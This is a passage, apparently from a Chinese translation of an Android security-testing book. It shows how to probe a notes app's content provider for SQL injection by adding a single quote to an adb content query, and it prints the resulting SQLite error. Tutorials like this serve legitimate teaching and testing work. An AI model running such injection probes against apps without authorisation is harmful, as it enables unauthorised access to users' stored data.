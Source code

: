 Row: 0 isdirty=1, body=test note_1, account_id=1, voice_path=, doodle_path=, deleted=0, modified=1062246014, sync_uid=NULL, title=No title, meta_info=
false
0, _id=1, created=1062246014, background=com.sonyericsson.notes:drawable/notes_background_grid_view_1, usn=0
$

```

如果仔细观察前面显示的输出，则只显示一行。上一个查询的工作方式与以下 SQL 查询类似：

```
select * from notes where _id=1;

```**  **## 注射试验：

如果您来自传统的 web 应用渗透测试背景，您可能知道一个事实，即单引号（'）是 SQL 注入测试中最常用的字符。让我们尝试通过向通过`where`子句传递的值添加一个引号。

该命令现在看起来如下所示：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1'"

```

其思想是检查此单引号是否会导致数据库执行的 SQL 查询中出现语法错误。如果是，则表示外部输入未正确验证，因此应用中可能存在注入漏洞。

运行上一个命令将产生以下输出：

```
$ adb shell content query --uri content://com.sonyericsson.notes.provider.Note/notes/ --where "_id=1'"

Error while accessing provider:com.sonyericsson.notes.provider.Note
android.database.sqlite.SQLiteException: unrecognized token: "')" (code 1): , while compiling: SELECT isdirty, body, account_id, voice_path, doodle_path, deleted, modified, sync_uid, title, meta_info, _id, created, background, usn FROM notes WHERE (_id=1')
 at android.database.DatabaseUtils.readExceptionFromParcel(DatabaseUtils.java:181)
 at android.database.DatabaseUtils.readExceptionFromParcel(DatabaseUtils.java:137)
 at android.content.ContentProviderProxy.query(ContentProviderNative.java:413)
 at com.android.commands.content.Content$QueryCommand.onExecute(Content.java:474)
 at com.android.commands.content.Content$Command.execute(Content.java:381)
 at com.android.commands.content.Content.main(Content.java:544)
 at com.android.internal.os.RuntimeInit.nativeFinishInit(Native Method)
 at com.android.internal.os.RuntimeInit.main(RuntimeInit.java:243)
 at dalvik.system.NativeStart.main(Native Method)
$

```

正如您在前面的摘录中所看到的，有一个 SQLite 异常被抛出。一个小小的观察清楚地表明，这是由于我们通过的单一引用。

```
unrecognized token: "')" (code 1): , while compiling: SELECT isdirty, body, account_id, voice_path, doodle_path, deleted, modified, sync_uid, title, meta_info, _id, created, background, usn FROM notes WHERE (_id=1')
